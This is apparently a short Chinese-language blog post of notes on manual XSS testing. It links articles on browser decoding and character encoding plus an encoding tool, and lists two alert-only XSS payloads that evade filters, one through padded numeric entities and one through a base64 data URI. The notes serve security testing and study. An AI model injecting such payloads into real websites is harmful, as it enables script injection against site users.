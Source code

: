 ```yaml
---
layout: post
title: "xss手工测试payload及在线工具"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

#相关文章

[浏览器是如何解码的](http://www.freebuf.com/articles/web/10121.html)
[XSS与字符编码的那些事儿](http://xss1.com/?p=19)
[网络浏览器的工作原理](http://www.html5rocks.com/zh/tutorials/internals/howbrowserswork/#Resources)

#编码工具

[Xss安全测试字符转换工具](http://app.baidu.com/app/enter?appid=280383)


#payload

	<script></script><svg><script>document.scripts[0].src&#00000000000000000000061/data:,alert(2)/.source</script>

这个好高端啊。

<a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">test</a>

